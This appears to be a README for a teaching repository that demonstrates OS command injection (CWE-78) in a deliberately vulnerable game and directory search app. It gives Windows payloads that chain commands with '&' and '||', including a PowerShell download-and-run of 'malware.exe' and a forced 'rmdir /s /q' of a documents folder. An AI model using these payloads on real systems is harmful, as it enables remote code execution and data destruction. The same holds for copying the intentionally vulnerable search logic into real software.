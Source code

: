 # OS-Command-injection-examples
## Overview
This repository is designed to demonstrate how an application can be vulnerable to the injection of operating system commands, a vulnerability further explained in the Common Weakness Enumeration (CWE) page [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html).
The core of the repository is a vulnerable application, with a frontend built using JavaScript and HTML, and a backend implemented in Java, with Maven managing its plugins and builds.

## Installation
To install the app, you should first open blank project and clone the repository with

``` git clone https://github.com/Krisi531/OS-Command-injection-examples.git ```

After that, locate to the main folder of the project and execute following command in terminal:

``` java -cp target/command-search-1.0-SNAPSHOT.jar CommandSearchServer ```

Message *Server started on port 8080* should appear in the terminal.

Open your browser and navigate to  

` http:\\localhost:8080 `

## Examples
There are two pages where you can test your queries: Game Selection and Directory Selection. In the Game Selection page, entering a desired game will display the top 5 players, but the search logic is intentionally vulnerable, allowing for the execution of other OS commands as well. The Directory Selection page operates similarly, but it performs a more general search, not limited to a specific player's folder. All test commands are Windows-based.

### Example 1
Games Selection: 

``` counter strike 2 & ipconfig /all ```

**Result:** Network configuration will be shown besides the players because '&' means that both commands will be executed. Whole command that is being executed looks like this: ` cmd.exe /c dir D:\BestPlayers\counterstrike2 /ad /b&ipconfig/all `. 
Flag ` /c ` means that terminal is exiting after finishing given commands, and flags ` /ad /b ` mean that only directory names should be listed without additional data.


### Example 2
Directory Selection:

``` something_wrong || powershell -Command Invoke-WebRequest -Uri http://localhost:8080/testattack -OutFile D:\Test\malware.exe; Start-Process D:\Test\malware.exe ```

**Result:** Attacker may not want to read specific file but rather save malicious code into the users account and start it later. This command saves ` malware.exe ` that is hosted on ` http://localhost:8080/testattack ` in the ` D:\Test\ ` directory of the users file system. He can also include ` Start-Process D:\Test\malware.exe ` to start .exe file immediately. He makes first command (plain search) fail and then is sure that second command will be executed because of the ` || `.

### Example 3
Directory Selection:

``` D:\MyData & rmdir /s /q D:\Documents ```

**Result:** If ` D:\MyData ` exists attacker may access some files that are confidential for the user and he can also delete some of his important files such as ` D:\Documents `. Flag ` /s ` means deleting directory and all of its contents, including any subdirectories and files, and flag ` /q ` suppresses confirmation prompts, so rmdir will not ask for confirmation before deleting a directory, even if it contains files or subdirectories.
